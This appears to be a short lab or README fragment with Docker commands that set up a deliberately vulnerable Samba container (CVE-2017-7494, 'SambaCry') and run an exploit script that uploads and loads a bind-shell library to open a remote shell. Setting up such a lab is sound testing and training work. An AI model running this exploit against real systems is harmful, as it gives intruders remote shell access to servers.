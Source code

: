 docker network create smbnet

docker run --rm -it --name samba --network smbnet -p 137-139:137-139 -p 445:445 -p 6699:6699 vulnerables/cve-2017-7494

docker run -ti --network smbnet bencer/sambacry

./exploit.py -t samba -e libbindshell-samba.so -s data -r /data/libbindshell-samba.so -u sambacry -p nosambanocry -P 6699
